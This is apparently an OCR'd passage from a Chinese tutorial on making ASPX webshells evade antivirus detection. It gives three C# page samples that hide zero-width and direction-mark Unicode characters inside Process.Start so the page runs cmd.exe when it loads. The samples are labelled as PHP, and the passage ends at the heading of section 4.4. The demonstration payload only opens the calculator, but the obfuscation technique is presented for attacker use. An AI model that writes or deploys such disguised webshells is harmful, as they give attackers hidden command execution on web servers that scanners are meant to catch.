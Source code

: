 0X04 WebShell免杀
===============

BMP中有一块内容是通用标点符号，码位范围 U+2000 – U+206F ，这个区域分配了111个字符，我们需要关心的字符大约有10个，这些基本都是非打印不可见的字符，可被利用拆解代码里敏感的类名或方法名

4.1 零宽度非连接器
-----------

零宽度非连接器 `U+200C、U+0000200C` 通常使用在波斯语多个文字连在一起时起到分割符作用，零宽度非连接符会告诉字体引擎不要将它们组合在一起，这是系统中使用的非打印字符。笔者在.NET代码里用它拆解Process类名和Start方法名，如下

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\U0000200Ccess.Star\u200Ct("cmd.exe","/c calc");
    }
</script>
```

4.2 零宽度连接器
----------

零宽度连接器 `U+200D、U+0000200D` 通常使用在梵文，零宽度连接器与零宽度非连接器相反，当多个原本不会连接的字符之间时，零宽度连接符会使它们以连接的形式打印在一起，笔者在.NET代码里用它拆解Process类名和Start方法名，如下

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u200Dcess.Star\u200Dt("cmd.exe","/c calc");
    }
</script>
```

4.3 从左到右标记
----------

从左到右标记符 (LRM) `U+200E、U+0000200E` 是一种不可见的格式化字符，用于Microsoft Word 等程序中的文字处理，像西里尔语从左到右文本、如叙利亚语从右到左的文本，用于设置相邻字符相文本方向的分组方式。

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u200Ecess.Star\u200Et("cmd.exe","/c calc");
    }
</script>
```

4.4 从右到左标记
----------
